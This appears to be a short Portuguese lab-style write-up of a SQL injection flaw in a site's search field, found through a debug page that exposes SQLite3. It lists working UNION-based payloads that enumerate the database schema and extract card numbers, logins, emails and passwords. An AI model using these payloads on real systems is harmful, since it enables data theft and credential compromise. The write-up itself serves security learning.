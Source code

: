 # Falhas e Ataques

Página Inicial: SQL Injection
Ao colocar uma aspa dupla (") no campo de busca, o site quebra. Isso mostra que o site é vulnerável a ataques SQL Injection. Um agravante é que o desenvolvedor deixou a página de Debug habilitada, mostrando detalhes do erro e inclusive a engine (SQLite3). Com a informação do SQL é possível compor um ataque que seja adicionado à cláusula where da query:

Original:

SELECT * FROM posts WHERE Content LIKE "%"%";
Alteradas:

SELECT * FROM posts WHERE Content LIKE "%X" union select 1, 2 --%";

X" union select 1, 2 --
X" union select name, sql from sqlite_master where type='table' --
X" union select name || ': ' || card, password from secrets --
X" union select login || ': ' || email, password from logins --
